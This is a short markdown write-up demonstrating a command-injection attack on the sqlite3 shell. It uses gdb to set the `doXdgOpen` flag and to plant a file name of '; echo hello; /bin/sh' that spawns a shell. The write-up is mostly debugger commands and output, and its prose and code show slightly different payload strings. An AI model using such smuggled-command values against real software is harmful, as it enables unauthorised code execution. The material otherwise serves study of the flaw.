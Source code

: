 ## Attack in GDB

## Attack

Attacker sets `doXdgOpen` to `true` and set `zTempFile` to a string `; echo 'hello', /bin/sh`. Then, when execution continues, `echo 'hello'` and `/bin/sh` will be executed.

In the first step, start sqlite

```bash
$ sqlite3
SQLite version 3.37.0 2021-12-09 01:34:53
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite>
```

In another terminal, attach gdb to the process
```bash
$ sudo gdb -p `pgrep sqlite3`
...
```

Go to the `main` function frame, and update the two members:
```bash
(gdb) bt
#0  0x00007f3b44e5807b in __pselect (nfds=1, readfds=0x7ffd187094f0, writefds=0x0, exceptfds=0x0, timeout=<optimized out>, sigmask=0x7f3b45173c20 <_rl_orig_sigset>)
    at ../sysdeps/unix/sysv/linux/pselect.c:48
#1  0x00007f3b45153be9 in rl_getc () from /lib/x86_64-linux-gnu/libreadline.so.8
#2  0x00007f3b45154503 in rl_read_key () from /lib/x86_64-linux-gnu/libreadline.so.8
#3  0x00007f3b45139c82 in readline_internal_char () from /lib/x86_64-linux-gnu/libreadline.so.8
#4  0x00007f3b4513a4ed in readline () from /lib/x86_64-linux-gnu/libreadline.so.8
#5  0x0000000000431b88 in one_input_line (in=0x0, zPrior=0x0, isContinuation=0) at shell.c:656
#6  0x00000000004155b2 in process_input (p=0x7ffd187097c8) at shell.c:18343
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
(gdb) frame 7
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
19152         rc = process_input(&data);
(gdb) p data.doXdgOpen
$1 = 0 '\000'
(gdb) p data.zTempFile
$2 = 0x0
(gdb) set data.doXdgOpen = 1
(gdb) set data.zTempFile = "; echo hello; /bin/sh"
(gdb) p data.doXdgOpen
$3 = 1 '\001'
(gdb) p data.zTempFile
$4 = 0x7f3b44d42990 "; echo hello; /bin/sh"
```

Attack done. Quite gdb
